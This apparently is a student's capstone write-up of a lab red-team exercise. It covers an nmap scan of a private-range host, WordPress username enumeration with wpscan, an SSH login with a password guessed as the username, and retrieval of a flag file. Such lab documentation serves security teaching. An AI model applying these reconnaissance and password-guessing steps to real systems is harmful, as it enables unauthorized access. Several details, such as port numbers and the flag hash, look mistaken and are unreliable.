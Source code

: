 # Final-Project
Offensive/Defensive/Network Analysis

**Red Team: Summary of Operations**

Exposed Services
Critical Vulnerabilities
Exploitation


Exposed Services
Nmap scan results for each machine reveal the below services and OS details:
$ nmap -sV -A 192.168.1.110
 
_C:\GITHUB\Final-Project\Screenshots\nmap scan


This scan identifies the services below as potential points of entry:

**Target 1**

Port 22/tcp open ssh
Port 80/tcp open http
Port 110/tcp rcpbind
Port 139/tcp open netbios-ssn
Port 445/tcp open netbios-ssn
Target 1

**Weak user passwords**
User password hashes not salted – WordPress dbase
User enumeration – WordPress
Misconfiguration of User Privileges/privilege escalation

Using the command wpscan --url http://192.168.1.110/wordpress.eu  This is known as user enumeration -used by attackers to get usernames of WordPress-sites. 
Users found were Michael and Steven

 
**Exploitation**
With Michael as the user name and simple guess of common password was made (user: Michael,  password: Michael).  This guess was successful using ssh:

ssh michael@192.168.1.110

This implies that the password was very weak and possibly, there was no strong password policy put in place.

Access to var directory and subdirectories was made : cd /var/www/ html
Using the command nano  service.html, flag1 hash value was revealed.

Flag1 :  b9bbcb33ellb80be759c4e844862482d

**COMMAND**:
ssh Michael @192.168.1.110
psword: Michael
cd /         to get to root directory
cd /var/www/html
ls -ltr
nano service.html 
